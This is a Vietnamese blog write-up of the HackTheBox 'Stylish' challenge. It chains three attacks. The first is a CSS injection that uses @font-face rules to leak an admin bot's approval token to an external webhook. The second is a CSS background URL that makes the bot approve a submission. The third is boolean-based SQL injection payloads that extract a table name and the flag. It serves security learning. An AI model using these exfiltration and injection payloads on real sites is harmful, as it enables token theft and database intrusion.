+++
date = '2026-06-09T00:01:00+07:00'
draft = false
title = 'Stylish - Hackthebox challenge'
description = 'Đầu tiên thì cứ phải quan sát để phân tích xem khai thác vào đâu.'
tags = ['hackthebox', 'challenge']
+++
# Stylish

## Dạo đầu

### Tìm điểm G

Đầu tiên thì cứ phải quan sát để phân tích xem khai thác vào đâu.

Vì challenges cung cấp cả mã nguồn nền sẽ dễ dàng hơn.



*Cái website nó trông thế này*

Tổng quan thì đây là một trang web cho phép ta upload 1 đoạn CSS lên xong sẽ có con bot admin nó review gì gì đó.

Ngó qua file `database.js` thì thấy rõ mục tiêu là đọc flag trong database thông qua lỗ hổng [**SQL Injection**](https://portswigger.net/web-security/sql-injection)**.**



*Sink*

### Lội ngược dòng

Lục mò trong đống code thì thấy được chỗ gọi tới hàm `getSubmissionComments` có thế khai thác.



Tuy nhiên thì để mà thực thi hàm `getSubmissionComments` thì phải thỏa được điều kiện `submission.approved != 0`.

Ta quan sát được để **approve** được thì phải truy cập tới endpoint `/approve/:id/:approvalToken`



Để **approve** thì ta cần có `approveToken`, thứ mà được tạo ra bởi một đoạn code ma đạo trong file `TokenHelper.js`



*Generate token code*

Đơn là nó tạo là 1 đoạn mã 32 ký tự từ từ điển và sắp xếp nó lại :thumbsup:

Thế cái token đó nó nằm ở đâu. Nó xuất hiện khi con bot nó truy cập tới endpoint sau.





Đại khái là thế. Các bạn đọc kỹ cái flow code là sẽ hiểu :)))

### Phân tích

Oke sau khi đã thu thập đủ thông tin, bây giờ ta cần phân tích xem cần làm gì.

Rõ ràng cái ta cần đầu tiên là lấy được `approveToken`.

_**Nhưng lấy kiểu gì?**_

Nhớ lại rằng trang website cho ta upload lên 1 file CSS, và file này cũng sẽ được đính kèm vào file HTML khi con bot vào review (file `card_unappraved.html`).



Bên cạnh đó còn có đoạn CSP sau:



Vậy ta nghĩ ngay có thế sử dụng [**CSS Injection**](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection) để leak được `approveToken.`

Các bước khai thác dự kiến sẽ là:

1. Dùng **CSS Injection** để _**leak**_ được `approveToken`.
2. Dùng `approveToken` để _**approve submission**_.
3. Khai thác lỗ hổng **SQLi** để _**đọc flag trong database**_.

## Đi vào khai thác

### CSS Injection

Ta sẽ dùng đoạn CSS sau:

```css
p#approvalToken {
    display: block !important;
}

@font-face{font-family: has_A;src: url('https://webhook/?q=A');unicode-range: U+41}
@font-face{font-family: has_B;src: url('https://webhook/?q=B');unicode-range: U+42}
@font-face{font-family: has_C;src: url('https://webhook/?q=C');unicode-range: U+43}
...
@font-face{font-family: has_0;src: url('https://webhook/?q=0');unicode-range: U+30}
@font-face{font-family: has_1;src: url('https://webhook/?q=1');unicode-range: U+31}
@font-face{font-family: has_2;src: url('https://webhook/?q=2');unicode-range: U+32}
...
p#approvalToken {
    font-size: 4em;
    font-family: has_A, has_B, has_C, ...
}

```

Để giải thích sơ về đoạn CSS trên, thì @font-face là một cách để CSS có thể tải font từ nguồn bên ngoài, và ta có thể quy định font đó sẽ có tác dụng trên những ký tự nào. Khi xuất hiện ký tự đó, thì CSS sẽ dùng font được quy định để định dạng ký tự đó, các ký tự khác sẽ không bị ảnh hưởng.

Vậy khi có một ký hiệu xuất hiện, ta sẽ gửi đi 1 request tới webhook cùng với param để xác định ký tự đó là gì, từ đó ta có thể leak được thông tin ra ngoài.

Tuy nhiên, cách này có một điểm yếu là ta không thể biết được thứ tự của các ký tự trong đoạn thông tin và cũng không biết chúng có bị lặp lại hay không.

Cách này hoạt động với challenge này vì tác giả đã thương tình mà tạo ra loại token mà nó không có ký tự trùng lặp và được sắp xếp. Chứ mà kiểu ngẫu nhiên thật thì tôi chịu :)))))

Nói thêm về&#x20;

```
p#approvalToken {
    display: block !important;
}
```

Tại sao lại có đoạn này, nó để làm gì?

Thì sau rất nhiều lần thử CSSi mãi mà không được, mặc dù tôi tự tạo ra 1 trang HTML khác thì nó chạy ầm ầm, thì tôi mới phát hiện ra là cái đoạn thông tin ta nhắm tới nó phải xuất hiện trên trang web đó, nếu nó bị ẩn đi, bằng `display: none` hay gì đó thì nó không chạy. Tại sao à, tôi đếch biết, tôi đã thử tìm hiểu nhưng chẳng tìm được gì, ai biết thì chỉ tôi với nhé (chắc là vấn đề hiệu năng gì thôi :confused:).

Oke giờ thì gửi đống của nợ CSS đi rồi đợi webhook báo tin thôi.



Sau khi gửi đi đoạn CSS thì mình nhận được 1 loạt các request như trên (do bên webhook.site bị 429 nên mình dùng server riêng của mình)

Ta thu được `approveToken: 02568BCDEFGHMOTWYbcdefgimnpqstwy`

### Approve Submission

Để approve được thì cần con bot gửi request tới endpoint `/approve/:id/:approvalToken`.

Đơn giản là ta thêm đoạn CSS sau là xong:

```css
body {
    background: url('/approve/1/02568BCDEFGHMOTWYbcdefgimnpqstwy')
}
```

Giờ ta đã có thể xem được submission 1 và comment.



### SQL Injection

Đầu tiên thì cứ phải test thử cái đã.





Oke SQLi đã hoạt động, giờ thì tìm cách đọc được flag trong database.

Dễ thấy thì đây là [**Boolean-Based SQLi.**](https://medium.com/@BhaktiKhedkar/exploiting-boolean-based-sql-vulnerability-42d387434a6d)

Ta không thể dùng **UNION SELECT** vì đoạn ta khai thác nằm phía sau **LIMIT**. Ta cũng không thể thay đổi giá trị của submissionID vì nó sẽ được kiểm tra trước, nó mà linh tinh thì sẽ chẳng trả về gì cả.

#### Đầu tiên là phải tìm tên table chứa flag

Ta sẽ trích xuất từng ký tự trong tên table bằng&#x20;

```
{
    "submissionID":"1",
    "pagination":"(1 AND SUBSTRING((SELECT name FROM sqlite_master WHERE type='table' AND name LIKE 'flag_%'),6,1) = 'a')"
}
```

Đại khái là nếu ký tự thứ i trong tên table mà giống với ký tự `'a', 'b', ...` thì nó sẽ trả về `TRUE`, và `1 AND TRUE` thì bằng `1`, khi ấy sẽ có kết quả trả về, còn không thì nó trả về mảng rỗng. Các bạn có thể tự thử nghiệm lại.

Ta sẽ sử dụng extension Turbo Intruder để tìm cho nhanh:





#### Đọc flag

```
{
    "submissionID":"1",
    "pagination":"(1 AND SUBSTRING((SELECT flag FROM 76d20fd1),%s,1) = '%s')"
}
```

> `Flag: HTB{Wh0_S41d_tH4t_c$$***************************}`
